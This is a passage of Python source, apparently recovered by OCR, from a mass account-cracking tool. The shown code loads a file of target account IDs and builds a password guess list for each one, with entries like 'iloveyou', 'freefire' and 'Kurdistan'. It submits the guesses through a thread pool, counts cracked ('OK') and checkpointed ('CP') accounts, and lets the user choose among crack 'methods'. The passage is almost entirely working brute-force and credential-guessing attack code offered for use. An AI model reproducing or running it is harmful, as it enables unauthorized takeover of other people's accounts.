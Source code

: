                        clear()
                        tl = str(len(user))
                        print(' Total account : \033[1;32m'+tl)
                        print(f'\033[1;37m Choice code ..:\033[1;32m '+code)
                        print(f'\033[1;37m \x1b[38;5;208mUse flight mode for speed up\033[1;97m')
                        linex()
                        for psx in user:
                                ids = code+psx
                                passlist = [psx,ids,'Kurdistan','kurdistan','i love you','iloveyou','free fire','freefire','@#@#@#','22334455','708090',]
                                Aking.submit(rndm,ids,passlist)
                print('\033[1;37m')
                linex()
                print(' The process has completed')
                print(' Total OK/CP: '+str(len(oks))+'/'+str(len(cps)))
                linex()
                input(' Press enter to back ')
def method_crack():
    global methods
    clear()
    print(f'[1] Method {1}')
    print(f'[2] Method {2}')
    print(f'[3] Method {3}')
    #print(f'[4] Method {4}')
    print(f'[0] Back')
    print('')
    option = input('Select method>: ')
    if option =='1':
        methods.append('methodA')
        main_crack().crack(id)
    elif option =='2':
        methods.append('methodB')
        main_crack().crack(id)
    elif option =='3':
        methods.append('methodC')
        main_crack().crack(id)
   # elif option =='4':
    #    methods.append('methodD')
   #     main_crack().crack(id)
    elif option =='0':
        yashi()
    else:
      print('\n Select Valid Option ...')
      time.sleep(2)
      method_crack()

class main_crack():
    def __init__(self):
        self.id=[]
    def crack(self,id):
        global methods
        clear()
        self.file = input('Put File Name : ')
        try:
            self.id = open(self.file).read().splitlines()
            self.pasw()
        except FileNotFoundError:
            print('Opps File Not Found ...')
            time.sleep(2)